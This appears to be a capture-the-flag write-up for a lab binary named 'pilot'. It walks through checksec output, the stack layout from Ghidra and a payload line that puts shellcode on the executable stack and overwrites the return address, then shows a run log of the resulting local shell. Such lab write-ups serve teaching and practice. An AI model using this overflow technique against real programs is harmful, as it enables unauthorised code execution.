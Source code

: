 # pilot Writeup

## Steps

1. Check security of file - NX disabled means stack is executable
```
$ checksec --file=pilot 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No Symbols        No    0               1               pilot
                                                                                                                                                            
```
2. To pop a shell we will write '/bin/sh' to the stack, add padding, and replace the return address with the location of the top of the stack - this location is provided
3. Look at the stack variable layout in ghidra
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         <UNASSIGNED>   <RETURN>
             undefined8        RAX:8          this                                    XREF[1]:     004009f4(W)  
             undefined1[32]    Stack[-0x28]   input                                   XREF[2]:     00400aa4(*), 
                                                                                                   00400acf(*)  
                             main                                            XREF[3]:     entry:004008cd(*), 00400de0, 
                                                                                          00400e80(*)  
```
The input starts writing to `Stack[-0x28]` which is int `40`, so the exploit will have `40 - len(shellcode)` of padding before the new return address
4. Capture the address provided and create the described payload
```
payload = shell_please + b'A' * (40-len(shell_please)) + p64(int(address, 16))
```

## Soltuion 
```
$ python3 ex_pilot.py 
[+] Starting local process './pilot': pid 15039
[*] Switching to interactive mode
[*]Command:$ ls
ex_pilot.py  pilot  pilot.md
$ w
 22:41:54 up 26 min,  2 users,  load average: 0.74, 1.05, 0.82
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
kali              -                22:16   25:37   0.00s  0.04s lightdm --session-child 13 24
kali              -                22:16   25:37   0.00s  0.38s /usr/lib/systemd/systemd --user
$ exit
[*] Got EOF while reading in interactive
$ 
[*] Process './pilot' stopped with exit code 0 (pid 15039)
[*] Got EOF while sending in interactive                                          

```

